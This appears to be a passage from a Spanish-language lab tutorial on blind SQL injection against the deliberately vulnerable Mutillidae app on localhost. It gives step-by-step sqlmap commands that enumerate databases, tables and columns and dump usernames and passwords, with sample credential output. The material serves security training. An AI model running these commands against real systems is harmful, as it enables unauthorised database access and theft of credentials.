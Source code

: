 
##### ✅ Paso 2: Forzar solo técnicas Blind

Si quieres _solo_ Blind (boolean-based, time-based):

```bash
sqlmap -u "http://localhost/mutillidae/index.php?page=user-info.php&user_id=1" --technique=B,T
```

✔️ `B` = Boolean-based

✔️ `T` = Time-based

---

##### ✅ Paso 3: Obtener bases de datos

```bash
sqlmap -u "http://localhost/mutillidae/index.php?page=user-info.php&user_id=1" --dbs
```

➡️ sqlmap extraerá los nombres de las bases.

⚠️ En Blind SQLi, esto puede ser lento, porque se hace **caracter por caracter**.

---

##### ✅ Paso 4: Elegir una base y extraer tablas

```bash
sqlmap -u "http://localhost/mutillidae/index.php?page=user-info.php&user_id=1" -D mutillidae --tables
```

---

##### ✅ Paso 5: Obtener columnas

```bash
sqlmap -u "http://localhost/mutillidae/index.php?page=user-info.php&user_id=1" -D mutillidae -T accounts --columns
```

---

##### ✅ Paso 6: Volcar datos

```bash
sqlmap -u "http://localhost/mutillidae/index.php?page=user-info.php&user_id=1" -D mutillidae -T accounts -C username,password --dump
```

✔️ Resultado:

```
+----------+----------+
| username | password |
+----------+----------+
| admin    | admin123 |
| user     | pass456  |
+----------+----------+
```

---